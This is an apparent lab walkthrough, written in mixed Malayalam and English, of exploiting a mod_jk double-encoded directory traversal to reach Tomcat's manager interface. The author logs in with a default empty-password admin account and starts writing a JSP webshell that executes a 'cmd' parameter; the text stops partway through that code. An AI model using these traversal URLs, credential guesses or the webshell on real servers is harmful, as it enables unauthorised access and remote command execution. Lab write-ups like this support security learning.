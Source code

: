          CLIENT ----->APACHE WEBSERVER WITH MOD_JK ------->TOMCAT AJP13 CONNECTOR
 
 -->so ivide client HTTP vazhi apache ilek request ayakunu. but apache with the help of mod_JK aa request AJP13 vazhi aan tomcat server ilek request ayakunath.
 -->the problem with mod_Jk is that in 2007 il athil oru directory traversal vulnerability
 kandethi with a double encoded value - `%252e%252e`  basically encoding a dot twice

-->so namuk thodangam ithan url -> http://ptl-7e383789-61e33605.libcurl.so/
-->lab open aakumbol apache tomcat examples enn paranj rand link tharunund.vere onum ila
-->namude main url il enthengilum type chyth 404 error varuthumbol ie,http://ptl-7e383789-61e33605.libcurl.so/sldfj  page il kanan patum `Apache/2.4.10 (Debian)`
-->athayath main website il apache server aan run chyunath ennal naaml aa rand link il ethengilum eduthit oru 404 error varuthumbol kanan tomcat server aan run chyunath ie,http://ptl-7e383789-61e33605.libcurl.so/examples/servlets/sdf
-->so athinartham applications run chyunath tomcat il aan. but apache server proxy pole nilkunu ennan enik thonunath
-->athayath naamal ayakuna http request apache lek pokunu.apache il mod_jk enna sathanam und ath tomcat ilek aa request ayakunu.ennal aa request mod_jk decode chyth AJP13 protocol il aan request send chyunath enit ath tomcat il ethumbol ath pinem decode engand chyunu
-->so namuk tomcat inte manager interface ilek pokanam. ath ullath `/manager/html` enna path il aan
-->so namal http://ptl-7e383789-61e33605.libcurl.so/manager/html  enn koduth send chyumbol namuk apache-404-error aan varunath
-->ini namal tomcat application il keri aan /manager/html ennadikunathengil tomcat-404-error varum ie,http://ptl-7e383789-61e33605.libcurl.so/examples/servlets/manager/html
-->ivide tomcat-404-error il kanikunathenthenal `HTTP Status 404 - /examples/servlets/manager/html`  ennan. namuk pokendath /manager/html pathilekan.ivide /examples/servlets/manager/html aayathkondan namuk 404 error varunath ok
-->so namal ivide satharana chyuna poel directory traversal chyth nokuka ie,
->http://ptl-7e383789-61e33605.libcurl.so/examples/../manager/html
-->apol namuk apache 404 error varunu
-->namuk ariyam mod_jk request decode chyunund.enit ath tomcat il ethumbol avidem decode chyunund.so namal ee .. ennath double encode chyanam.apol traversal work aakum
->http://ptl-7e383789-61e33605.libcurl.so/examples/%252e%252e/manager/html
-->ingane kodukumbol namuk oru authentication form popup akum avide satharana ulla default aayitula credentials kodukanam. like admin:admin admin:tomcat admin: tomcat:admin
-->ivide admin:  with no passwd kodukumbol namuk tomcat inte application manager ilek keran patunund
-->njn nerthe paranju tomcat il namuk applications deploy chyan patum.ivide namuk tomcat inte manager il keran patiyath kond namuk direct aayi application deploy chyan patum ok
-->so namuk oru webshell upload chyan patumon nokam


## Building a Webshell
-->To build a Webshell, we will need to write the Webshell and package it as a `war` file.
-->To write the Webshell, we can either use JSP or Servlet. To keep things simple, we are going to build a JSP Webshell, the following code can be used :
```jsp
	<FORM METHOD=GET ACTION='index.jsp'>
	<INPUT name='cmd' type=text>
	<INPUT type=submit value='Run'>
	</FORM>
	<%@ page import="java.io.*" %>
	<%
	   String cmd = request.getParameter("cmd");
	   String output = "";
	   if(cmd != null) {
	      String s = null;
	      try {
	         Process p = Runtime.getRuntime().exec(cmd,null,null);
	         BufferedReader sI = new BufferedReader(new
	InputStreamReader(p.getInputStream()));
	         while((s = sI.readLine()) != null) { output += s+"</br>"; }
	      }  catch(IOException e) {   e.printStackTrace();   }
	   }
```